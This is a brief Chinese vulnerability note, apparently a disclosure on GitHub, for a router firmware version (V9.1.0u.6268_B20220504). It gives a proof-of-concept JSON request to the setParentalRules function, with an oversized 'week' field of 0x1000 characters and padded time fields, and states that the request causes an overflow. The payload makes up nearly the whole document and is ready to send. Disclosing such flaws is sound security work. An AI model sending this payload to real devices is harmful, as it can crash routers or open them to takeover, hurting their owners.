


**固件版本**：V9.1.0u.6268_B20220504

setParentalRules函数



poc：

```json
{
    "token": "1111", 
    "addEffect": "3", 
    "topicurl":"setParentalRules", 
    "week":"a"*0x1000, 
    "sTime": "b"*0x10, 
    "eTime": "c"*0x10
}
```


结果造成溢出

